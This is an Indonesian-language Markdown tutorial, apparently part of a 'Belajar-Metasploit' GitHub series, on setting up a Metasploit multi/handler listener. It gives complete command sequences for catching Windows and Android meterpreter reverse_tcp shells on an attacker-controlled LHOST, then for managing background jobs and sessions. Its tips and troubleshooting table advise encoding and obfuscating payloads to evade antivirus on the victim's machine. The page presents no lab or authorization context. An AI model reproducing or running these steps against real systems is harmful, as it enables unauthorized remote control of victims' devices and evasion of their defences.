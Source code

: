 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Memahami%20Payload%2C%20Encoder%2C%20dan%20NOPs.md">Memahami Payload, Encoder, dan NOPs</a>
</p>

# Membuat Listener

## A. Apa itu Listener?

[Listener](https://docs.rapid7.com/metasploit/listeners/) adalah komponen yang menunggu koneksi masuk dari sistem yang berhasil dieksploitasi. Kamu harus menyiapkan listener jika ingin membangun koneksi antara server Metasploit milikmu dan mesin target yang telah dieksploitasi.

Misalnya, jika kamu telah mengirimkan file executable ke host target, maka kamu perlu menyiapkan listener untuk menunggu koneksi dari host tersebut.

Ketika host terhubung ke listener, sebuah sesi akan terbuka di mesin mereka, yang memungkinkan kamu berinteraksi dengan sistem tersebut. Di Metasploit terdapat modul listener yaitu:

```
exploit/multi/handler
```

Modul ini tidak mengeksploitasi, tapi hanya mendengarkan dan menangani koneksi masuk dari payload yang berhasil dijalankan di sistem korban.

## B. Langkah-Langkah Membuat Listener

1. Jalankan Metasploit Framework:

   ```
   msfconsole
   ```

2. Pilih Modul `exploit/multi/handler`:

   ```
   use exploit/multi/handler
   ```

3. Tentukan Payload yang Sesuai

   Contoh jika payload yang dikirim adalah `windows/meterpreter/reverse_tcp`:

   ```
   set PAYLOAD windows/meterpreter/reverse_tcp

   ```

4. Atur IP dan Port Listener:

   ```
   set LHOST 192.168.1.100
   set LPORT 4444
   ```

   Keterangan:
   - **LHOST**: IP Attacker
   - **LPORT**: Port listener (tempat menerima koneksi)

5. Jalankan Listener:

   ```
   run
   ```

   Atau bisa juga:

   ```
   exploit
   ```

## C. Contoh Lengkap: Listener untuk Payload Windows:

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## D. Contoh Listener untuk Payload Android:

```
use exploit/multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST <IP_ATTACKER>
set LPORT 4444
exploit
```

## E. Mode Background Listener

Kalau ingin listener tetap berjalan di background:

```
exploit -j -z
```

Keterangan:
- `-j`: Jalankan sebagai job (background)
- `-z`: Tidak membuka sesi interaktif secara langsung

Melihat job listener aktif:

```
jobs
```

Menghentikan job tertentu:

```
jobs -k <ID>
```

Menghentikan semua job:

```
jobs -K
```


## F. Interaksi dengan Session Meterpreter

Saat target berhasil terhubung, session akan muncul:

```
sessions
```

Untuk masuk ke sesi:

```
sessions -i <ID>
```

## G. Tips Keamanan

- Gunakan IP yang benar-benar bisa diakses korban (`public IP/VPN/local` sesuai skenario).
- Jangan gunakan port yang umum terblokir firewall.
- Gunakan encoding dan obfuscation pada payload untuk menghindari AV.

## H. Troubleshooting

| Masalah | Penyebab Umum | Solusi |
|:--:|:--:|:--:|
| Tidak ada koneksi masuk | `IP/Port` salah | Pastikan `LHOST/LPORT` sesuai|
| Payload terdeteksi AV | Payload tidak diencode | Gunakan `-e` encoder di `msfvenom` |
| Listener tidak merespons | Port diblokir | Ganti port atau periksa firewall |

<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit/blob/main/resource/Bypass%20Antivirus%20(AV)%20dengan%20Metasploit%20Framework.md">Bypass Antivirus (AV) dengan Metasploit Framework</a>
</p>
